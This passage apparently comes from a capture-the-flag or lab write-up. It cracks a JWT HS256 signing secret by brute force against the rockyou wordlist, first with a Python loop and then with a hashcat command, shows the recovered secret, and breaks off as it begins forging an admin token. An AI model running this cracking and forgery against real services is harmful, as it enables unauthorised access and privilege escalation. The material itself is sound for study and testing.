 ```python
with open("/usr/share/wordlists/rockyou.txt", "r", encoding="latin1") as f:
    passwords = [p.strip() for p in f.readlines()]

for secret in tqdm(passwords):
    encoded_jwt = jwt.encode(
        payload,
        secret,
        algorithm="HS256",
    )
    if encoded_jwt == original_token:
        print("FOUND SECRET:", secret)
        break
```

After about 90 seconds, we got lucky:
```shell
$ python3 ./jwt_secret.py
Loading passwords ...
 26%|████████████▏                                  | 3706823/14344392 [01:23<03:58, 44539.02it/s]
 FOUND SECRET: skylark140584
```

While editing this write-up, I notice that using `hashcat` on the original token would have been
much easier and about 15x faster:
```shell
$ echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImVtYWlsIiwicGFzc3dvcmQiOiI5MDE5MjQ1NjUifSwiaWF0IjoxNjI1NTk1OTQwfQ.fct7HvhkQRh5pvu4Vjze4BCNf0wul3l7cUfjWr0vWzg" > jwt.txt            

$ hashcat --quiet -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImVtYWlsIiwicGFzc3dvcmQiOiI5MDE5MjQ1NjUifSwiaWF0IjoxNjI1NTk1OTQwfQ.fct7HvhkQRh5pvu4Vjze4BCNf0wul3l7cUfjWr0vWzg:skylark140584
```

Using the secret, we can now use JWT.IO to create a correctly signed JWT with the payload where we
replaced our username with `admin`:
